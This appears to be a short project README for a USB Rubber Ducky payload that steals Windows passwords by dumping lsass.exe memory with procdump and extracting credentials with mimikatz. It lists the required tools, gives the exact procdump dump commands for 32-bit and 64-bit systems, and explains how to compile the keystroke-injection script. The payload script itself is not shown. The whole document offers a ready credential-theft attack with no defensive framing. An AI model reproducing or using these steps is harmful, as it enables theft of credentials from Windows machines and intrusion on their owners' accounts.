 # payload-mimikatz-procdump-for-rubber-ducky:
 A payload for extract the passwords of a windows computer with mimikatz & procdump.

# Requeriments:
 1. Rubber ducky
 2. Twin duck firmware
 3. VS or msbuild to compile the mimikatz
 4. Windows (better windows 10)
 5. java

# Instructions:
 1. Compile the mimikatz.sln with VS or msbuild.
 2. start a cmd on the path of the procdump.exe and execute this command for a 32 bits: "procdump.exe -accepteula -ma lsass.exe lsass.dmp" or "procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp" for 64 bits.
 3. Edit the lines 33, 34, 36 and 42 of the inject.txt
 4. Now we can compile the inject, only run this command in the path of the inject.txt with the cmd: "java -jar ducky.jar -i inject.txt -o inject.bin" if you don't use the US keyboard, you need to extract the file with the propierties of your keyboard from the resources folder, then, you have to run this command instead: "java -jar ducky.jar -i inject.txt -o inject.bin -l HERE THE NAME OF YOUR PROPIERTIES FILE".